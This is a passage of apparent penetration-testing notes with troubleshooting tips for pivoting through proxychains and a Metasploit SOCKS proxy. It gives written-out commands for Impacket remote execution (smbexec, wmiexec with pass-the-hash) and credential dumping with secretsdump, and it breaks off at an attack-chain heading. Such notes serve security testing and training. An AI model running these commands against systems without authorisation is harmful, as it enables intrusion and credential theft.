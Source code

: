 **Solution**: Use Impacket tools instead:
```bash
# Instead of: proxychains crackmapexec smb target -u user -p pass
# Use: proxychains impacket-smbexec DOMAIN/user:pass@target
```

### **🔧 Proxychains Best Practices**

#### **✅ Working Format**:
```bash
# Inline credentials (no interactive prompts):
proxychains impacket-secretsdump DOMAIN/user:pass@target

# No sudo with proxychains:
proxychains impacket-wmiexec user@target -hashes LM:NT
```

#### **❌ Problematic Format**:
```bash
# Interactive password prompts fail:
proxychains sudo secretsdump.py DOMAIN/user@target

# CrackMapExec credential parsing issues:
proxychains crackmapexec smb target -u user -p pass
```

### **🔌 SOCKS Proxy Stability**

#### **Common Issues**:
- SOCKS proxy stops automatically
- Port conflicts (1080 in use)
- VERSION mismatch between Metasploit and proxychains

#### **Solutions**:
```bash
# Check proxy status:
jobs

# Restart if needed:
use auxiliary/server/socks_proxy
set VERSION 4a  # Match proxychains config
set SRVPORT 1082  # Use different port if 1080 occupied
run -j

# Update proxychains accordingly:
# socks4  127.0.0.1 1082
```

---

## 🔑 **Complete Attack Chain Summary**

